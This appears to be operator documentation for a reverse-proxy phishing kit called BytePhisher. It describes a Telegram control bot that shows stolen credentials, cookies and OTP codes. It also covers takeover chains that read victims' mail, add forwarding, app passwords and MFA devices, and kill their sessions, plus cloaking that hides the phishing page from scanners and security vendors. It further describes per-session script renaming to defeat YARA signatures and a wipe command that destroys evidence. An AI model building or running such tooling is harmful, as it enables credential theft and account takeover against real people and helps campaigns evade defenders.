





# Operations (control channel, chains, evasion, filtering)

Running a campaign: the two-way Telegram control channel, the post-exploitation chains that act on a captured session, the per-campaign evasion hygiene, and the filtering that keeps researchers and scanners out of the data.



## Part 1 - The control channel

Two things an operator needs that a plain capture feed does not give: the ability
to *act* from the chat, and the ability to keep scanners and security vendors away
from the campaign.

### 1. Telegram as a control channel

```mermaid
flowchart TD
    subgraph Chat
        OP[Operator] -- "/session abc" --> BOT
        OP -- taps "Takeover" --> CB[callback_query]
        BOT -- reply --> OP
    end
    CB --> C2[core/telegram.py]
    BOT --> C2
    C2 --> R{registry}
    R --> S1[/stats/]
    R --> S2[/sessions/]
    R --> S3[/session SID/]
    R --> S4[/live SID/]
    R --> S5[/otp SID/]
    R --> S6[/takeover SID/]
    R --> S7[/lures/]
    R --> S8[/block IP/]
    R --> S9[/unblock IP/]
    S1 --> DB[(capture DB)]
    S3 --> DB
    S4 --> LIVE[(live_input)]
    S6 --> VAULT[(session vault)]
    S8 --> BLK[[data/blocklist.txt]]
    BLK --> GATE[gate.blocklist_entry]
```

```text
  getUpdates ──► parse ──► chat allowed? ── no ──► drop (silently)
                             │ yes
                             ▼
                        command registry ──► render ──► sendMessage
                                                          (with buttons)
```

### Commands

| Command | Answers with |
|---|---|
| `/stats` | captures, credentials (and credible), visitors, sessions — all scoped to the campaign; blocked is database-wide and says so |
| `/sessions [n]` | newest sessions: sid, state, ip, geo, creds, cookie count |
| `/session <sid>` | credentials, tokens, cookies, device token, timeline |
| `/live <sid>` | latest value per field from the live stream, codes flagged |
| `/otp <sid>` | the input seen in that stream, in order, with timings |
| `/takeover <sid> [task]` | runs the session's takeover task, reports the steps |
| `/lures` | each lure: token, kind, opens/max, state |
| `/block <ip>` | appends `ip:<addr>` to the blocklist and reloads the gate |
| `/blockip <sid>` | blocks the address recorded on that session |
| `/unblock <ip>` | removes the entry and reloads the gate |
| `/help` | the registry, generated from what is registered |
| `/chains` | list the post-exploitation chains and their tasks |
| `/chain <sid> [name]` | run a chain against a captured session |

### Rules that are enforced, not assumed

* **Only the operator chat may command the bot.** Any other chat is ignored and
  nothing is sent back (`test_only_the_operator_chat_may_command`).
* **A failing command reports itself** (`/session` with a bad id answers with the
  error) instead of dying inside the poll loop.
* **The poll loop survives a dead network** - a transport error is logged, the
  loop sleeps and retries.
* **Long output is split on line boundaries** under Telegram's 4096-char limit,
  and every line is kept.

### Alerts carry the actions

| Alert | Buttons |
|---|---|
| `session` | Takeover, Live, Session, Block IP |
| `otp` | Show codes, Takeover, Live, Session, Block IP |
| `creds` / `live` | Takeover, Live, Session, Block IP |
| anything else | none (there is no session to act on) |

```bash
./.venv/bin/python bytephisher.py --proxy --upstream login.example.com \
    --telegram "TOKEN:CHAT_ID" --telegram-c2
```

Tests: `tests/test_telegram.py` (48) - parsing, dispatch, the operator-only rule,
chunking, the poll loop, the reply decoding (`core/net.post_json` returns a
`(status, body)` tuple; a transport that does not unpack it silently drops every
command), and the alert buttons.

### 2. Post-exploitation chains

A captured session is only worth what you do with it. A chain is a named sequence
of browser tasks run against the vault record, each reporting its own outcome.



| Chain | Tasks | What it establishes |
|---|---|---|
| `recon` | probe, profile, links | access is real; who the account is; every link |
| `inbox` | probe, inbox-subjects, mail-hunt | the mailbox is readable; high-value mail is found |
| `takeover` | probe, mail-forward, app-password, mfa-add | the forwarding / app-password / MFA surfaces are reachable |
| `lockout` | probe, sessions-kill | the active-sessions page is reachable |
| `full` | all of the above | the whole picture in one run |

```bash
./.venv/bin/python bytephisher.py --chains                 # list them
./.venv/bin/python bytephisher.py --run-chain SID          # recon
./.venv/bin/python bytephisher.py --run-chain SID:inbox    # or --chain-name inbox
./.venv/bin/python bytephisher.py --run-chain SID:full --chain-json out.json
```

In the chat: `/chain SID [name]` and `/chains`.

### What makes the output usable

* **Per-task reporting.** Every task's step count, duration, extracted values and
  errors are kept, so a site whose UI differs shows which step failed instead of
  one opaque "done". `ok` is true only when no task produced an error.
* **The keyword hunt.** `mail-hunt` extracts the mailbox text and the runner scans
  it for the terms that matter, reporting each hit with the line it came from
  (`invoice INV-20431 from Acme is due`) rather than a bare boolean.
* **Error isolation.** A task that raises does not kill the chain: the error is
  recorded and the remaining tasks still run.
* **No fabrication.** A task that could not run reports its error; a chain with an
  error is reported as incomplete.

### Aiming a chain at a real site

The takeover tasks are generic: they visit `{mail}`, `{settings}` and `{security}`,
which default to paths on the session's home page. A session's `meta` overrides
them, so a campaign can point a chain at the real pages without editing code:

```json
{"meta": {"home": "https://mail.example.test/",
          "mail": "{home}/u/0/inbox",
          "security": "https://accounts.example.test/apps",
          "operator": "collect@example.test"}}
```

Tests: `tests/test_chains.py` (25) - the runner's ordering, error isolation,
findings extraction, the report, and the task variables.

### 3. Researcher and scanner filtering

A campaign's visitors are consumers. A login page visit from a datacenter, a
security vendor, a VPN exit or a scanner is analysis, and it is served the decoy
instead of the phishlet.



```text
  /__bh/...  ─ collector routes are matched first, so a scanner never
               reaches the gate at all
  gate off   ─ nothing is filtered (the default)
  --block-researchers  ─ arms the built-in lists and reads data/blocklist.txt
                         (a file alone does NOT arm anything: behaviour that
                         depends on leftover state is not predictable)
```

### What is checked

| Signal | Source | Examples |
|---|---|---|
| address ranges | built in | Shodan, Censys, Googlebot, bingbot, BinaryEdge, Shadowserver |
| user agent | built in | `CensysInspect`, `zgrab`, `nuclei`, `python-requests`, `curl/`, `HeadlessChrome`, `SemrushBot` |
| organisation | built in | security vendors, cloud/hosting, commercial VPNs and Tor |
| your own list | `data/blocklist.txt` | `acme-security`, `ua:my-scanner`, `ip:203.0.113.9`, `net:198.51.100.0/24` |

The reason is always recorded with the refusal, and it names the match
(`known scanning range (censys, 162.142.125.0/24)`), so a false positive is
diagnosable instead of mysterious.

### The decoy must not leak

A decoy serves the upstream page so a scanner sees a perfect copy of the real site
and has nothing to report. It is served **without** the collector script and
**without** our session cookie: an earlier version injected the collector into the
decoy, which handed every scanner the endpoint, the session id and the design.
Found by `tests/test_blocklist.py::test_a_scanner_never_sees_the_phishlet`.

```bash
./.venv/bin/python bytephisher.py --block-researchers                      # built-in lists
./.venv/bin/python bytephisher.py --block-researchers --blocklist-file my-list.txt
```

Note for operators: your own tooling (a browser check with `curl`, a `urllib`
script) carries a scanner user agent and will receive the decoy while the filter
is armed. Use a browser, or add an exception, when checking the campaign
yourself.

Tests: `tests/test_blocklist.py` (52) - organisation, range, user-agent and file
matching, the gate's decision, and a scanner and a real browser through the real
proxy.

## Part 2 - Evasion hygiene

Two surfaces every kit leaves behind, and what BytePhisher does about them: a
fixed collector path, and byte-identical injected script for every victim.

### 1. The hook path is relocatable

```text
 default                                  relocated
 ───────                                  ─────────
 /__bh/intel.js   collector               /assets/v2/x7f3/intel.js
 /__bh/intel      device dump             /assets/v2/x7f3/intel
 /__bh/live       real-time input         /assets/v2/x7f3/live
 /__bh/capture    hook submission         /assets/v2/x7f3/capture
 /__bh/beacon     hook beacon             /assets/v2/x7f3/beacon
 /__bh/hook.js    capture hook            /assets/v2/x7f3/hook.js
```



One value drives all of it, which is the point: serving the collector at a new
path while the injected tag still pointed at the old one meant the collector never
loaded - a silent, total loss of the harvest. `test_the_injected_tag_uses_the_custom_path`
asserts the tag on a real proxied page for exactly that reason.

```bash
./.venv/bin/python bytephisher.py --hook-path /assets/v2/x7f3 ...
```

### 2. The collector is renamed per session

The script is byte-identical for every victim by default, so one hash or one YARA
rule matches every campaign at once. Now its top-level identifiers are renamed
deterministically from the session id:

```text
 session aaaa...                       session bbbb...
 ───────────────                       ───────────────
 var SID = "aaaa...";                  var _3f9c1a7b = "bbbb...";
 var EP  = "/__bh/intel";              var _8e21d4c0 = "/__bh/intel";
 var PERMS = false;                    var _1b7ae93f = false;
 var mods = {};                        var _c04d8f21 = {};
 function send(wave) {...}             function _77e1aa03(wave) {...}
```



What is deliberately **not** renamed: `push` and `send` (both appear inside string
literals in the collector), and anything used as a property or an object key. The
rule is implemented as `(?<![.\w$])NAME(?![\w$])(?!\s*:)`, and it is tested against
`arr.push(x)` and `{push: 1, send: 2}`.

### 3. Verification, not assumption

Renaming identifiers in a 1200-line script is exactly the kind of change that
breaks something silently, so it is verified by execution:

| Check | How |
|---|---|
| syntax | `node --check` on the rendered script, for two sessions |
| behaviour | `tests/js_harness.js` runs the randomised collector under Node with a stubbed DOM and asserts it still POSTs to the endpoint |
| per-session difference | two session ids must produce different bytes |
| property safety | `arr.push(...)` and `{push: ...}` survive the rename |

```text
 $ node tests/js_harness.js /tmp/collector_a.js
 {"ok":true,"error":null,"beacons":[],"fetches":
  ["https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js","/__bh/intel"],"count":2}
```

The harness is skipped automatically when Node is absent, so the suite still runs
on a machine without it - the Python half of the check never skips.

### Tests

`tests/test_evasion.py` - 16 tests, including the Node execution ones.

```bash
./.venv/bin/python -m pytest tests/test_evasion.py -v
```


### Panic and attacker safety

The operator has to be able to end a campaign from their phone, and the tool must
not hand the campaign to anyone else in the meantime.

| command / flag | what it does |
|---|---|
| `/panic` (Telegram) | stop serving now; the store is kept |
| `/kill` (Telegram) | stop serving **and** wipe captures, sessions, intel, live input, blocked rows and lures, then vacuum |
| `--api-token TOKEN` | require `?token=` or `X-Api-Token` on every dashboard route; without it the API is open to whoever finds the port |
| dashboard bind warning | binding the dashboard anywhere but loopback without a token prints a warning, because that API serves captured credentials |

The panic handlers live outside the control-channel block (`panic_handlers()` in the
CLI) so they can be exercised directly: a panic path that only runs when Telegram is
reachable is a panic path nobody has ever tested.
